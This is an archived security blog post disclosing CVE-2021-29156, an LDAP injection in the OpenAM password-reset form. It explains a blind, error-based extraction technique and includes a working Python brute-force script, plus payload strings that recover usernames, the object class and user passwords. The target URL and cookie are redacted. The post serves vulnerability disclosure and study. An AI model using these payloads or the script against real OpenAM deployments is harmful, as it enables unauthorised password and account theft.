

Archive notes:
* Original URL: https://blog.cybercastle.io/ldap-injection-in-openam/
* Archive.org URL: https://web.archive.org/web/20210226031627/https://blog.cybercastle.io/ldap-injection-in-openam/
* CVE: [CVE-2021-29156](https://nvd.nist.gov/vuln/detail/CVE-2021-29156)

# LDAP INJECTION IN OPENAM

**TL;DR**

In this article we explain how we were able to identify and exploit an LDAP injection vulnerability within OpenAM access management  server platform.

**About OpenAM**

OpenAM is an open-source access management, entitlements and federation server platform. It was sponsored by ForgeRock until 2016. Now it is supported by Open Identity Platform Community. OpenAM originated as OpenSSO, an access management system created by Sun Microsystems and now owned by Oracle Corporation. Wikipedia

**LDAP Injection**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements through techniques similar to SQL Injection

**Vulnerability Details**

The vulnerability was found in the password reset feature that OpenAM provides. When a user tries to reset his password, he is asked to enter his username then the backend validates whether the user exists or not through an LDAP query before the password reset token is sent to the user’s email.  Setting the value of the username parameter PWResetUserValidation.tfUserAttr to * caused the server to respond with the following error Error: There is more than one user matching the specified value. Enter a different value, or contact your administrator for assistance. which indicates that it could be vulnerable to LDAP injection.

Setting the value of PWResetUserValidation.tfUserAttr parameter to **)|(objectclass=** returned the same error which means that the query returned more than a user. With that said, it’s possible to fetch any data from the directory service database using the following technique:

If the query returns more than one result => There error returned will be:  There is more than one user matching the specified value

If the query returns only one result => There are no questions configured for you or asks the user to answer questions

If the query doesn’t return anything => The password cannot be reset for this user

Thus, It’s possible to fetch the value of any property for the user object if we know the property name using **)|(propertyName=**a and if the server doesn’t return the errror: The password cannot be reset for this user then the value of the property has a character “a” and we can keep trying other characters until we get the full value.

Since the injection point is within the username property, we were able to extract usernames from the active directory service database using the following python script:

import requests

url = "https://[REDACTED]/amserver/ui/PWResetUserValidation"

charlist = "@_/:$%&^+,-=.1234567890abcdefghijklmnopqrstuvwxyza"

headers = {"Cookie":"[REDACTED]", User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0"

}

restart = True

res = ''

while restart:

restart = False

for char in charlist:

r = requests.post(url, headers=headers,data={"PWResetUserValidation.fldUserAttr":"uid",

"PWResetUserValidation.tfUserAttr":"%s%s*)(objectclass=*" % (res,char), "PWResetUserValidation.btnNext":"%C2%A0Next%C2%A0","jato.defaultCommand":"/btnNext","jato.pageSession":"1"}, verify = False)

print "%s%s %s" % (res,char, str(r.status_code))

# print r.content

if "cannot be reset for this user" not in r.content:

print "found %s%s" % (res,char)

res = "%s%s" % (res,char)

restart = True

break

And after running the script, it returned the username of the admin user: amadmin

After further testing, we decided to see if it would be possible to fetch passwords or password reset tokens.

First, we need to get the object class name, we were able to do this by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “**)(objectclass=**%s%s” % (char,res) which returned sunServiceComponent

Now all we have to do is to look for the documentation of sunServiceComponent class at https://docs.oracle.com/cd/E19563-01/819-4437/6n6jckr11/index.html

One of the allowed attributes for this class is sunKeyValue which returns all attributes assigned to the user including the userPassword value.

Thus, we were able to fetch the user password by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “PWResetUserValidation.tfUserAttr”:”**)(sunKeyValue=**userPassword=%s%s*” % (res,char)

That’s it for today, follow us and subscribe to our newsletter for more interesting writeups!

WRITTEN BY: MAHMOUD GAMAL
